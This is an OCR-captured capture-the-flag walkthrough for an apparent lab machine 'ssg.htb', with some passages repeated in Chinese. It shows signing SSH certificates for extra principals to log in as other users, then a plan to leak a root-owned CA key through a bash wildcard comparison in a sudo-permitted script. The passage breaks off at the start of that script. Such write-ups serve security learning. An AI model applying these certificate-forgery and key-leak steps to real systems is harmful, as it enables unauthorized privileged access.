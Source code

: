 Firstly, we use this script to make a cret file of user support
`./sign.sh keypair.pub support support > support.cert`
`ssh -o CertificateFile=support.cert -i keypair support@ssg.htb -p 2222`

Then we found there is only 2 users in /home and when we check the ifconfig, we finally find something we wanted.
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.27  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:1b12  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:1b12  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:1b:12  txqueuelen 1000  (Ethernet)
        RX packets 29687  bytes 3410224 (3.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 26916  bytes 7324451 (7.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
Let's enumerate the api or services about ssh or signing-keys.
Come to the file path '/etc/ssh'

SSH principals are listed inside of the auth_principals folder.
SSH 主体列在auth_principals文件夹内
Let’s add these principals into script:
让我们将这些主体添加到脚本中：

`supported_principals="webserver,analytics,support,security,root_user,zzinter_temp"`

Then let's just repeat all the process like before.
```
./sign.sh keypair.pub root root_user > root.cert
ssh -o CertificateFile=root.cert -i keypair root@ssg.htb -p 2222
```
But this time, it give us errors
`{"detail":"Root access must be granted manually. See the IT admin staff."} `

So let's try the other one:
```
./sign.sh keypair.pub zzinter zzinter_temp > zzinter.cert
ssh -o CertificateFile=zzinter.cert -i keypair zzinter@ssg.htb -p 2222
```
Then we can use sudo -l to check what zzinter can do something as root.
```
Matching Defaults entries for zzinter on ssg:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User zzinter may run the following commands on ssg:
    (root) NOPASSWD: /opt/sign_key.sh
```
It looks like the same file
But `-rwxr----- 1 root zzinter 1480 Jul 23 14:02 /opt/sign_key.sh`
we can not change anything of this file.

```
This script can run as root which means it can access to Certificate Authorization file but we can’t modify the script. I want you to be very careful at this point, this script reads the original CA file content and checks if they are same or not, if they’re same it returns error code 1. We can use this vulnerability to bruteforce the CA but since they are very long, it would be almost impossible to bruteforce it. So what are we gonna do? Luckly, bash does wildcard comparing which will give very good advantage.
该脚本可以以 root 身份运行，这意味着它可以访问证书授权文件，但我们无法修改该脚本。我希望你在这一点上要非常小心，这个脚本会读取原始CA文件内容并检查它们是否相同，如果相同则返回错误代码1。我们可以利用此漏洞来暴力破解CA，但是由于它们非常长，几乎不可能对其进行暴力破解。那么我们要做什么？幸运的是，bash 进行通配符比较，这将带来非常好的优势。
```
For example:
```
#!/bin/bash

a='Hello World'
```